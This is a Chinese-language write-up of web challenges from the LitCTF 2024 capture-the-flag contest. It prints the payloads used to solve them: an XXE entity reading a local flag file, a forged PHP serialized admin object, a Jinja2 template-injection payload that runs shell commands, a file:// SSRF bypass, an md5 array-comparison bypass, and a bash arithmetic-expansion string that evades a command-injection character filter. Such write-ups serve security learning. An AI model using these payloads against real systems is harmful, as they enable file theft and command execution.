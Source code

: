 ```yaml
---
title: "LitCTF 2024"
date: 2024-06-01
categories: 
  - "ctf"
tags: 
  - "ctf"
---
```


## WEB

### exx

这个标题以及整个界面，在NSS里面是做到过原题的，整体思路就是XXE

![](./images/image.png)

```
<?xml version="1.0" ?>
<!DOCTYPE note [
<!ENTITY hyh SYSTEM "file:///flag">
]>
<user>
<username>&hyh;</username>
<password>123456</password>
</user>
```

然后发包即可

![](./images/image-1.png)

### SAS - Serializing Authentication System

![](./images/image-3.png)

base64加密之后传入参数即可

```

<?php

class User {

    public $username;

    public $password;

    function __construct($username, $password) {

        $this->username = $username;

        $this->password = $password;

    }

    function isValid() { return $this->username === 'admin' && $this->password === 'secure_password'; }

}

$a=new User('admin','secure_password');
echo base64_encode(serialize($a));
```

### 一个....池子？

![](./images/image-4.png)

能够回显2

![](./images/image-5.png)

可以看出考察SSTI模板注入

```
{{lipsum.__globals__.__getitem__('os').popen('cat /f*').read()}} #直接打通
```

### 浏览器也能套娃？

这道题虽然存在XSS漏洞，但是考点是SSRF服务端请求伪造

使用协议绕过

```
file:///flag.txt
```

### 高亮主题(划掉)背景查看器

![](./images/image-6.png)

一眼文件包含，不过需要抓包

![](./images/image-7.png)

### 百万美元的诱惑

```
<?php
error_reporting(0);

$a = $_GET['a'];
$b = $_GET['b'];

$c = $_GET['c'];

if ($a !== $b && md5($a) == md5($b)) {
        if (!is_numeric($c) && $c > 2024) {
            echo "好康的";
        } else {
            die("干巴爹干巴爹先辈~");
        }
    }
else {
    die("开胃小菜))");
}
开胃小菜))
```

#?a\[\]=1&b\[\]=2&c=9999%20 绕过得到./dollar.php

```
//dollar.php
<?php
//flag in 12.php
error_reporting(0);
if(isset($_GET['x'])){
    $x = $_GET['x'];
    if(!preg_match("/[a-z0-9;`|#'\"%&\x09\x0a><.,?*\-=\\[\]]/i", $x)){
            system("cat ".$x.".php");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

上面的正则表达式过滤了以下几种情况

- 小写字母 a 到 z（忽略大小写，使用 `i` 修饰符）

- 数字 0 到 9

- 特殊字符：`;`、`\``、`|`、`#`、`'`、`"`、`%`、`&`、`\\x09`（制表符）、`\\x0a`（换行符）、`\>`、`<`、`.`、`，`、`?`、`\*`、`\-`、`\=`、`\[`、`\]\`

这里只需要构造出1、2两个数字即可，用了一种很新的思路

即可以使用$、（、），~这四个字符进行构造

![](./images/image-10.png)

```
// 
x=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```
